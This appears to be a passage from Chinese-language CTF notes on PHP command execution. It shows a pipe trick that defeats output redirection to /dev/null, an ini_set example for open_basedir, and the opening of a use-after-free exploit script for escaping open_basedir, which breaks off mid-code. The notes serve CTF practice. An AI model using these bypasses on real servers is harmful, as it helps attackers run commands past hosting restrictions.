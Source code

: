 **黑洞：**

```
>/dev/null 2>&1
>代表重定向，会将我们命令执行的所有结果全部丢进预定义的/dev/null这一垃圾桶中，导致我们收不到回显
```

利用管道符绕过,效果详见1.1节

```
ls || >/dev/null 2>&1
```

##### 绕过open_basedir()

**1.ini_set重设置绕过**

```
<?php

ini_set('open_basedir', '/path/to/allowed/directory:/another/allowed/directory');
?>
```

可以设置多个安全目录，目录和目录之间可以使用:进行分隔

**2.UAF脚本绕过安全目录**

使用时需要进行url编码再传入（bp编码）

```php
<?php
function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

```